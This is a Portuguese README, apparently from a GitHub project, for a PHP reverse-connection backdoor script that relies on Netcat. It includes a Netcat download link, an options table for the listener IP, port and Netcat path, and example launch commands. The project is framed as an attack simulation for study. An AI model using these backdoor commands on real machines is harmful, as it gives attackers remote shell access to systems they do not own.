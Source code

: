 # Reverse Connection Attack
__Script criado para simular ataques de conexão reversa mundialmente conhecido, de uma forma simples e utilizando a linguagem PHP__

<br>

__Importante*: Você precisa ter o NetCat em seu pc.__

<br>

**Caso já tenha, então pule os passos a seguir. Caso não tenha, baixe: https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip. Após baixado, coloque-o nas variáveis de ambiente para poder ser acessada de qualquer lugar do sistema, caso não, diga para o script o caminho até o Netcat.**
<table>
<tr>
  <th>Comando</th>
  <th>Opções</th>
  <th>Definição</th>
</tr>
<tr>
  <td rowspan="4">php client.php</td>
</tr>
<tr>
  <td>-h ou --host</td>
  <td>Define o seu IP para a backdoor</td>
</tr>
<tr>
  <td>-p ou --port</td>
  <td>Define a porta de escuta. Se utiliza para redes externas, libere a porta no firewall e permita o Port Fowarding no seu roteador principal.</td>
</tr>
<tr>
  <td>-dir ou --directory</td>
  <td>Define o caminho (completo) do sistema até o arquivo .exe do Netcat</td>
</tr>
</table>

<br>

**Exemplos de uso:**

<li>php client.php --host 127.0.0.1 -p 7500</li>

<li>php client.php -h 127.0.0.1 -p 8080 --directory C:\Users\(seu usuário)\Documents\netcat-win32-1.12\nc.exe</li>

<li>php client.php --host 192.168.1.40 --port 6405 -d C:/netcat/nc.exe</li>
